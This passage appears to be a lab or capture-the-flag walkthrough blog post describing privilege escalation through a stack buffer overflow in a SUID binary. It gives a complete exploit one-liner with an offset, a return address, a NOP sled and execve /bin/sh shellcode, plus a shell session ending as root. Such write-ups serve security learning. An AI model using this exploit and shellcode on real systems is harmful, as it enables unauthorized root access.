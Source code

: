 {% highlight bash %}
(gdb) i r esp
esp            0xbffffb80 0xbffffb80
{% endhighlight %}

Padded with some NOPs - for a reliable landing. 

![Worf jump](\img\warf-jump.gif)

Overwrote EIP with the location of ESP and tagged some shellcode on the end to exectute a shell. 

###Final Exploit

{% highlight bash %}
./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')
{% endhighlight %}

Note: gdb drops privileges on SUID, in order to spawn the new shell with SUID you need to execute the exploit outside of gdb, or the shell will spawn as the unprivileged user.

The binaries in <code>choose_wisely/door*</code> are rotated, the largest is the vulnerable binary. 

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">Exploit Process</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">du -sh *<br></span>
        </p>
        <p class="line">
          <span class="output">12K door1<br></span>
        </p>
        <p class="line">
          <span class="output">12K door2<br></span>
        </p>
        <p class="line">
          <span class="output">16K door3<br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">cd door3<br></span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * <br>10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\<br>xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')</span>
        </p>
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">whoami<br></span>
          <span class="output">root<br></span>